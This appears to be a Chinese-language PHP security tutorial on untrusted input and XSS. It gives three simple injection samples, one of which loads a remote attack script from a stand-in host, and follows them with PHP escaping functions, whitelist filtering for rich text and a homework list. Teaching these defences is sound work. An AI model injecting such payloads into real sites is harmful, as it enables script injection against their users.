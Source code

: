 在开发应用时，一般会有个约定：不要信任任何来自不受自己控制的数据源的数据，例如：

- $_GET
- $_POST
- $_REQUEST
- $_COOKIE
- php://stdin
- php://input
- file_get_contents()
- 远程数据库
- 远程API
- 来自客户端的数据


## XSS
### XSS各种注入姿势

```
<a href='javascript:alert(1);'>click</a>
a标签的显式注入

<script src='http://other.com/hask.js'></script>
通过script标签加载恶意攻击脚本，script加载的脚本是会自动执行的

<a href="javascript:void(0);" onclick="location.href='http://www.baidu.com'">click</a>
通过点击事件来注入js脚本，同理其他标签的事件也能注入js脚本
```
说明：img标签只能加载图像，测试让img标签加载html页面、js代码均无法解析。


### XSS防范
1. 过滤掉html标签
2. 过滤js脚本代码

过滤函数：
```php
htmlentities()
# 将html标签转换成html实体

html_entity_decode()
# 将html实体转换成html标签

htmlspecialchars()
# 将特定字符转换成html实体

strip_tags()
# 将所有html标签删除
```
上述的php函数可以帮我们过滤或删除html标签和js脚本，但是有时候一些富文本输入要求允许用户输入一些特定元素。

### 富文本的过滤

一些情况下，我们希望用户能够输入一些特定的html元素，例如img标签、a标签。

对于富文本，可以考虑这样过滤：
- 先过滤掉白名单外所有的标签。
- 用正则表达式匹配白名单中的标签，匹配这个标签我们允许他设置的内容和属性。

通过这俩点变可以解决富文本的过滤问题。


### 作业 ###
- xss过滤方法
- 验证输入过滤类
- pdo demo
- mysqli demo
- sql过滤类
- 框架与过滤的整合